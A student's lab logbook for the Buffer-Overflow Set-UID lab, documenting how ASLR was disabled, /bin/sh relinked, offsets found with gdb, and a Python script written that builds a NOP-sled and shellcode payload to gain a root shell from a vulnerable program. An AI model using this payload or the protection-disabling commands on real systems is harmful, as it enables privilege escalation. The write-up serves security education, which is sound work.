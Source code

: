 # Buffer-Overflow Attack Lab - Set-UID Version

# Introduction

In this logbook we will execute an exploit related to buffer-overflow. To do that we need to turn off some countermeasures of the system.

To prevent this type of attacks the systems implemented an address space randomization that will randomize the starting address of heap and stack. This makes guessing the addresses, one of the critical steps of buffer-overflow attacks, much more difficult.

To turn off this feature we ran this command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

In the recent versions of Ubuntu OS, the `/bin/sh` symbolic link points to the `/bin/dash` shell. The `dash` program, as well as `bash`, has implemented a security countermeasure that prevents itself from being executed in a `Set-UID` process.

So we used the following command to link `/bin/sh` to another shell that doesn't have such a countermeasure `zsh`:

```bash
$ sudo ln -sf /bin/zsh /bin/sh
```

## Question 1

### Task 1

In this task we learn how a shell code works. Using the code provided in the file *call_shellcode.c* we can initiate a new shell. When we compile this program with the given *Makefile* it will create two binaries, *a32.out* and *a64.out*. Runnig them we will see that a new shell is initiated. 

### Task 2

In this task we deep dive to better understand the way the attack will be performed. First we disabled certain security mechanisms, to ensure that the program is susceptible to a buffer overflow attack, only then we compiled the vulnerable program `stack.c`. By setting the program as a root-owned Set-UID program, we created the conditions needed for potential privilege escalation when the vulnerability is exploited in the next task. In this task we also changed the L1 to be L1 = 100 + 8 * 6, being 6 the number of out group.

### Task 3

In this task, we exploit the buffer overflow vulnerability in `stack-L1-dbg` to initiate a shell by manipulating the EIP to point to our shellcode.


To begin, we used `gdb` to debug the file `stack-L1-dbg` that we created using the Makefile.
We set a breakpoint at the start of the program and identified key memory locations, like the ebp and the buffer address (Figure 1) and this way we can calculate the offset. The offset is determined by the difference between the ebp and the buffer address, plus 4, and represents the location where we’ll place the return address to redirect the EIP. With the offset we know were the EIP address is and we can manipulate it to have the address of some function we want to run instead of the address of the point were the EIP is pointing at. In this case we will pass the address of our shellcode.

<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_1.png">
        <figcaption style="font-size: smaller">Figure 1: Ebp and buffer adresses</figcaption>
    </figure>
</div>

Knowing this we create a script in python (`exploit.py`) were we create a badfile with 517 NOPs (this will overflow the buffer because the size is 100+8*6). We also added the shellcode to the buffer toward the end of the buffer to maximize our chance of successful execution (but it can also work in another start locations). 

Toward the end of the buffer, we added the shellcode to ensure enough padding and increase our chances of successful execution (as asked in Question 2). This placement also allows us some flexibility, as it may work from other starting points within the buffer. We also calculated the return address to be 0xffffca7c + start (where start is the position within the buffer), then embedded it at the offset location to overwrite the EIP with the shellcode address.
 
Here's the Python script we used to generate badfile:

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" 
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31" 
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca7c + start         # Change this number 
offset = 0xffffcb18 - 0xffffca7c + 4             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
  ```

When executed, this payload successfully overflows the buffer, overwriting the EIP and redirecting execution to our shellcode, launching a root shell (Figure 2).

<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_2.png">
        <figcaption style="font-size: smaller">Figure 2: Exploit working</figcaption>
    </figure>
</div>
